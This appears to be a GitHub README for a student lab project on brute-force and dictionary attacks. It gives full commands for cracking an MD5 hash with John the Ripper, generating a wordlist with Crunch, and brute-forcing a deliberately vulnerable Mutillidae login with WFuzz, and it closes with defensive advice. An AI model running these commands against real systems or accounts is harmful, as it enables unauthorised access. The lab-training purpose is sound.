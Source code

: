 # 🔐 Project 3: Brute Force & Dictionary Attacks

---

## 📘 About the Project

This project explores the execution and impact of **brute force** and **dictionary attacks**, two common password-cracking techniques used in cybersecurity. Used real penetration testing tools to simulate these attacks and highlight the risks of weak passwords and poor system configuration.

---

## 🎥 Video Demonstration

**YouTube**: [Brute Force & Dictionary Attack](https://youtu.be/GBG-5aOF89g)

---

Focus was on:
- Using **John the Ripper** to crack hashed passwords
- Employing **Crunch** to generate password lists
- Using **WFuzz** to brute-force a login form on a vulnerable web application

---

## 🧪 Tools Used

| Tool            | Purpose |
|------------------|---------|
| **John the Ripper** | Cracking password hashes using brute force and dictionary attacks |
| **Crunch** | Generating custom password lists with user-defined patterns |
| **WFuzz** | Fuzzing login forms with password lists to find valid credentials |

---

## 🔍 Part 1: Cracking Passwords with John the Ripper

### 🛠️ Environment Setup
```bash
sudo apt update
sudo apt install john
```
### 🔑 Steps
Generate a hashed password

``` bash
Copy
Edit
openssl passwd -1 password1234
```
Create a simulated /etc/shadow file
shadow1a.txt contains the MD5-hashed password

Create a simulated /etc/passwd file
passwd1a.txt contains user info

Merge files with unshadow

```bash
Copy
Edit
unshadow passwd1a.txt shadow1a.txt > hashes1a.txt
Create a dictionary wordlist

```

``` bash
Copy
Edit
echo -e "123456\npassword\nroot\nadmin\npassword123\npassword1234" > testlist1a.txt
Run John the Ripper

```

``` bash
Copy
Edit
john --format=md5crypt --wordlist=testlist1a.txt hashes1a.txt
Display cracked password(s)

```

``` bash
Copy
Edit
john --show hashes1a.txt

```

✅ John successfully cracked the hash for password1234.

### 🔍 Part 2: Brute Force with WFuzz & Crunch
🛠️ Environment Setup
``` bash
Copy
Edit
sudo apt update
sudo apt install wfuzz
sudo apt install crunch

``` 
### 🌐 Target
Vulnerable web app: Mutillidae on Metasploitable VM

Login form URL:
http://192.168.121.131/mutillidae/index.php?page=login.php

### 🔐 Step-by-Step
### 1. Generate a password list with Crunch
``` bash
Copy
Edit
crunch 9 9 -t admin@@@@ > password.lst
Generates combinations like admin0000 to admin9999

```

We inserted the real password adminpass near the top for demo purposes

### 2. Run WFuzz attack
```bash
Copy
Edit
wfuzz -z file,/root/password.lst -d "username=admin&password=FUZZ&login-php-submit-button=Login" http://192.168.121.131/mutillidae/index.php?page=login.php
WFuzz iterates through all passwords in password.lst
```
Correct password adminpass was successfully identified

### 3. Verify Login
Visited the login URL in a browser

``` 
Used:

Username: admin

Password: adminpass

```

### ✅ Login was successful

### 🔚 Conclusion
Brute Force attacks try all possible combinations; Dictionary attacks are faster using pre-built lists.

Tools like Crunch, John the Ripper, and WFuzz are powerful for demonstrating password security flaws.

This project emphasizes the importance of:

Strong password policies

Rate limiting and account lockout features

Using hashed and salted passwords with modern algorithms (e.g., bcrypt)
